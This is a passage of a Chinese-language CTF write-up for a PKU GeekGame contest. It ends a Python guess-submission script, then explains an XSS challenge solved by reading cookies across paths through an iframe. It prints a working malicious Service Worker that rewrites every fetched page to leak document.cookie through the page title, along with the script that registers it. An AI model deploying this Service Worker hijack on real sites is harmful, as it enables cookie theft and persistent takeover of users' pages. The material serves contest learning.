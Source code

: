 ```python
    # assert l == 516, f"expect l to be 516, found {l}!"
    for idx2, trial_status in enumerate(trial.content.decode()[l: l + 64]):
        if trial_status == green:
            ans[idx2] = emoji
    l2 = trial.content.decode().find("remaining")
    print(trial.content.decode()[l2: l2 + 12])
    print(trial.content.decode()[l: l + 64])
    print("".join(ans))
trial = new_s.get(f"https://prob14.geekgame.pku.edu.cn/level3?guess={''.join(ans)}")
print(trial.content.decode())
```

## 第三新XSS #prob01-homepage

### 巡猎

先尝试直接读取`document.cookie`，发现不同path的确实读不到。之前写chrome插件时，通过向chrome申请权限能够读到，于是先查了这个方向，然后发现似乎不对。于是又查了一会，查到Same-origin policy。于是通过内嵌一个存了flag的网址的iframe并读取其cookie然后`document.title = document.cookie`成功完成。

### 记忆

根据提示学习了Service Worker。但是注册成功后翻车了114次
<details><summary>翻车失败思路</summary></details>

最终的成功方案：Service Worker篡改FetchEvent的结果，注册一个100ms改一次标题的函数。

```javascript
/*
{"Content-Type": "text/javascript",
"Service-Worker-Allowed": "/"}
*/
self.addEventListener('fetch', function (event) {
    event.respondWith(new Response(
        new Blob([
            "<script defer>" +
            "const f = () => { document.title = document.cookie };\n" +
            "setInterval(f, 100);\n" +
            "</script>"
        ],
            { type: 'text/html' })));
});
```

主页面：

```javascript
<script defer>const registerServiceWorker = async () => {
  if ("serviceWorker" in navigator) {
    try {
      const registration = await navigator.serviceWorker.register("/server/index.js", {
        scope: "/",
      });
      if (registration.installing) {
        console.log("Service worker installing");
      } else if (registration.waiting) {
        console.log("Service worker installed");
      } else if (registration.active) {
        console.log("Service worker active");
      }
    } catch (error) {
      console.error(`Registration failed with ${error}`);
    }
  }
};
registerServiceWorker();
```